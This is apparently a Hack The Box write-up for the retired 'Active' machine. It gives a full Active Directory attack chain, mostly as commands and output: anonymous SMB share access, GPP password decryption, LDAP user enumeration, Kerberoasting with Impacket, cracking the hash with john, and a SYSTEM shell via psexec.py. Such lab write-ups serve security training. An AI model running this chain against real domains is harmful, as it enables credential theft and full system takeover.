


hackthebox Active
Released: July 28th 2018 / Pwned: November 4th 2019 - [+] Solved whilst Retired

As the name implies, Active is all about Active Directory.
Summary
• Crack a Group Policy password found in a Groups.xml in the Replication share
• Move to Active Directory and retrieve a list of users on the target with GetADUsers.py
• Retrieve Administrators's password hash via a TGS request run by GetUserSPNs.py
• Crack Administrator's password hash with john
• Log in to the target as Administrator with psexec.py
Tools used
• smbmap
• gpp-decrypt
• ldapsearch
• GetADUsers.py
• GetUserSPNs.py
• john
• psexec.py
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.100
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p <open ports> -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.100
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/ctf/active]
└──╼ #mkdir nmap
┌─[root@parrot]─[/ctf/active]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.100
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 15:21 GMT
Nmap scan report for 10.10.10.100
Host is up (0.12s latency).
Not shown: 65512 closed ports
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5722/tcp open msdfsr
9389/tcp open adws
47001/tcp open winrm
49152/tcp open unknown
49153/tcp open unknown
49154/tcp open unknown
49155/tcp open unknown
49157/tcp open unknown
49158/tcp open unknown
49169/tcp open unknown
49171/tcp open unknown
49182/tcp open unknown
Lots of results.
grep the Nmap output for open ports, and run service detection and default scripts against those open ports.
┌─[root@parrot]─[/ctf/active]
└──╼ #grep ^[0-9] nmap/tcp-all.txt | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// > nmap/tcp-portlist.txt
┌─[root@parrot]─[/ctf/active]
└──╼ #cat nmap/tcp-portlist.txt
53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49169,49171,49182
┌─[root@parrot]─[/ctf/active]
└──╼ #nmap -p $(cat nmap/tcp-portlist.txt) -T4 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.100
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 15:29 GMT
Nmap scan report for 10.10.10.100
Host is up (0.11s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2019-11-01 15:29:21Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5722/tcp open msrpc Microsoft Windows RPC
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49169/tcp open msrpc Microsoft Windows RPC
49171/tcp open msrpc Microsoft Windows RPC
49182/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%)
[...]
In situations like this, where there a lots of open ports, you should pick out the key ports which are likely to net you the most useful information the quickest, and start there.
From these results, the ports you should most likely be looking at are:
• 139/smb - Anonymous access to a share might be enabled
• 389/ldap - Might be ablet to gather information from Active Directory
2) 139/smb
List the available shares on the target with smbclient -L.
┌─[root@parrot]─[/ctf/active]
└──╼ #smbclient -L //10.10.10.100
Enter WORKGROUP\roots password:
Anonymous login successful
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
Replication Disk
SYSVOL Disk Logon server share
Users Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
To save yourself the effort of checking whether you have access to any of these shares manually, you can use smbmap.
┌─[root@parrot]─[/ctf/active]
└──╼ #smbmap -H 10.10.10.100
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445 Name: active.htb
Disk Permissions
---- -----------
ADMIN$ NO ACCESS
C$ NO ACCESS
IPC$ NO ACCESS
NETLOGON NO ACCESS
Replication READ ONLY
SYSVOL NO ACCESS
Users NO ACCESS
Great! We have read access on Replication.
2a) Replication share
Connect to the Replication share with smbclient.
┌─[root@parrot]─[/ctf/active]
└──╼ #smbclient //10.10.10.100/Replication
Enter WORKGROUP\roots password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sat Jul 21 11:37:44 2018
.. D 0 Sat Jul 21 11:37:44 2018
active.htb D 0 Sat Jul 21 11:37:44 2018
I turned on recusive listing with recurse ON so that I could view all the files in the share with 1 command.
smb: \> recurse ON
smb: \> ls
. D 0 Sat Jul 21 11:37:44 2018
.. D 0 Sat Jul 21 11:37:44 2018
active.htb D 0 Sat Jul 21 11:37:44 2018
\active.htb
. D 0 Sat Jul 21 11:37:44 2018
.. D 0 Sat Jul 21 11:37:44 2018
DfsrPrivate DHS 0 Sat Jul 21 11:37:44 2018
Policies D 0 Sat Jul 21 11:37:44 2018
scripts D 0 Wed Jul 18 19:48:57 2018
[...]
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
. D 0 Sat Jul 21 11:37:44 2018
.. D 0 Sat Jul 21 11:37:44 2018
GPT.INI A 23 Wed Jul 18 21:46:06 2018
Group Policy D 0 Sat Jul 21 11:37:44 2018
MACHINE D 0 Sat Jul 21 11:37:44 2018
USER D 0 Wed Jul 18 19:49:12 2018
[...]
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
. D 0 Sat Jul 21 11:37:44 2018
.. D 0 Sat Jul 21 11:37:44 2018
Groups.xml A 533 Wed Jul 18 21:46:06 2018
[...]
Towards the bottom of the listing you should see 1 file that stands out - Groups.xml.
Retreieve the file with get.
smb: \> get active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \> exit
┌─[root@parrot]─[/ctf/active]
└──╼ #cat Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
2b) Group Policy Preferences
Group Policy Preferences (GPP) was introduced in Windows Server 2008 and, among other features, allows admins to modify users and groups accross the network.
User passwords are stored in the Groups.xml file, and are AES-256 encrypted.
However, at some point in 2012, Microsoft published the Groups.xml AES key on MSDN (their developer network/Microsoft manual), which means that GPP passwords are now trivial to crack.

In the Groups.xml file you just retrieved, can see a username and their encrypted password.
name="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
The encrypted password can be cracked with gpp-decrypt.
┌─[root@parrot]─[/ctf/active]
└──╼ #gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
We now have a set of credentials:
SVC_TGS
GPPstillStandingStrong2k18
You can grab user.txt from the Users smb share at this point.
┌─[root@parrot]─[/ctf/active]
└──╼ #smbclient //10.10.10.100/Users -U SVC_TGS
Enter WORKGROUP\SVC_TGSs password:
Try "help" to get a list of possible commands.
smb: \> cd SVC_TGS\Desktop
smb: \SVC_TGS\Desktop\> get user.txt
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \SVC_TGS\Desktop\> exit
┌─[root@parrot]─[/ctf/active]
└──╼ #cat user.txt
86d67d8b...
3) 389/ldap
Armed with credentials, we can extract information (more than if anonymously authenticating) from Active Directory.
To query Active Directory effectively, we first need the naming contexts.
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #ldapsearch -H ldap://10.10.10.100 -x -s base -b "" namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts
#
#
dn:
namingContexts: DC=active,DC=htb
namingContexts: CN=Configuration,DC=active,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb
namingContexts: DC=DomainDnsZones,DC=active,DC=htb
namingContexts: DC=ForestDnsZones,DC=active,DC=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1
The naming contexts are: DC=active,DC=htb
We get an error if we try to anonymously authenticate with Active Directory.
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #ldapsearch -H ldap://10.10.10.100 -x -LLL -b "DC=active,DC=htb"
Operations error (1)
Additional information: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
Instead, use the credentials you extracted the SMB share to authenticate.
The output is very long, so I would advise directing the output to a text file.
┌─[✗]─[root@parrot]─[/ctf/active/ldap]
└──╼ #ldapsearch -H ldap://10.10.10.100 -x -LLL -b "DC=active,DC=htb" -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18'
dn: DC=active,DC=htb
objectClass: top
objectClass: domain
[...]
From Active Directory, we can retrieve a list of users that authenticate with the Domain Controller.
You could trawl through the output yourself, grep for sAMAccountName in the output, or use Impacket's GetADUsers.py.
I used Impacket's GetADUsers.py:
-all - enumerate all users (even if the account is disabled)
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
[*] Querying 10.10.10.100 for information about domain.
Name Email PasswordLastSet LastLogon
-------------------- ------------------------------ ------------------- -------------------
Administrator 2018-07-18 20:06:40.351723 2018-07-30 18:17:40.656520
Guest <never> <never>
krbtgt 2018-07-18 19:50:36.972031 <never>
SVC_TGS 2018-07-18 21:14:38.402764
4) Kerberoasting
Now with a list of users in Active Directory, we can check if any these users have been configured with an SPN
An SPN is what Kerberos, Windows' authentication protocol, uses to identify which accounts are running network services (MSSQL, etc.) on the network.
List accounts configured wtih an SPN (Service Principal Name) using Impacket's GetUserSPNs.py
┌─[✗]─[root@parrot]─[/ctf/active/ldap]
└──╼ #GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon
-------------------- ------------- -------------------------------------------------------- -------------------------- --------------------------
active/CIFS:445 Administrator CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb 2018-07-18 20:06:40.351723 2018-07-30 18:17:40.656520
Ah, Administrator has been configured with an SPN.
This means we can perform a Kerberoasting attack.
What is Kerberoasting?
Kerberoasting is where you make a TGS request to the Domain Controller to request access to another service running on the network (e.g. MSSQL). The Domain Controller will then reply. This reply is encrypted with NTLM hash of the user running the service. We then extract the password hash from the reply and crack it, ending up with a set of credentials.
Fortunately, Impacket's GetUserSPNs.py can do this all for us.
Make a TGS request with GetUserSPNs.py and the -request flag, and GetUserSPNs.py will extract the password hash from the response for us.
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon
-------------------- ------------- -------------------------------------------------------- -------------------------- --------------------------
active/CIFS:445 Administrator CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb 2018-07-18 20:06:40.351723 2018-07-30 18:17:40.656520
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$1b0d06d6948d3b681cb13acf1a57cc54$74d5ce0ce62879a109a5afeaa49247c
[...]
Administrator's password hash can be cracked with john.
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #nano tgs.hash
(copy/paste hash into file)
┌─[root@parrot]─[/ctf/active/ldap]
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt tgs.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:10 DONE (2019-11-04 11:21) 0.09881g/s 1041Kp/s 1041Kc/s 1041KC/s Tiffani1432..Tiago_18
We now have Administrator's credentials:
Administrator / Ticketmaster1968
Gain Access as Administrator
5) psexec.py
Wtih Administrator's credentials we can get a shell on the system, because SMB is running, using Impacket's psexec.py.
┌─[✗]─[root@parrot]─[/ctf/active/ldap]
└──╼ #psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file oSVZzfrN.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UJmE on 10.10.10.100.....
[*] Starting service UJmE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
b5fc76d1d6...